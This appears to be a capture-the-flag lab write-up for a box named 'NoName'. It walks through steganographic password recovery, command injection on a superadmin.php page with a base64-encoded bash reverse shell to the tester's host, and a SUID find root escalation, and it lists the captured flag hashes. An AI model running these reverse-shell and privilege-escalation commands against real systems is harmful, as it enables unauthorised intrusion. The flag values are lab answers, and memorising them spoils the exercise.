

# NoName

**IP Address:** 192.168.238.15

## Enumeration
### Open Ports
| Port #| Service | Details  |
|:------|:---------|:---------|
| 80 | http | Apache httpd 2.4.29 ((Ubuntu)) |

## Exploitation
### Exploit Details (Command Execution)
* **Name** - Command Execution
* **CVE** - N/A
* **Module** - N/A
* **Disclosed** - N/A
* **References**
  * N/A


1. In the http://192.168.238.15/admin page we can locate a password in the comments section. We can then use this password to extract a message from an image on the website. 

Commands
```
curl http://192.168.238.15/admin | grep '<!-'
wget http://192.168.238.15/haclabs.jpeg
steghide extract -sf haclabs.jpeg
harder
cat imp.txt
cat imp.txt | base64 -d 
```



2. On the superadmin.php that we found in the message in the image we can gain remote command execution. First we need to base64 encrypt our reverse shell. 

Commands
```
echo 'bash -i >& /dev/tcp/192.168.49.238/53 0>&1' | base64
```


2. Now we can enter the below command into the superadmin.php page to get code execution. 

Commands
```
| echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQ5LjIzOC81MyAwPiYxCg==' | base64 -d | bash
```


3. We can now catch the reverse shell and read the local.txt file 

Commands
```
whoami
cat /home/yash/local.txt
```


## Privilege Escalation
### Exploit Details (SUID (find))
* **Name** - SUID (find)
* **CVE** - N/A
* **Module** - N/A
* **Disclosed** - N/A
* **References**
  * N/A

The find binary has the SUID bit set we can use this to get a root shell. 

Commands
```bash
/usr/bin/find . -exec /bin/sh -p \; -quit
whoami
cat /root/proof.txt
```


## Loot
```
local.txt
7b78bad2c8b20abda31a7a8ee80f7fcd
proof.txt
cd211e5f57276d04d7723f58724871b2
```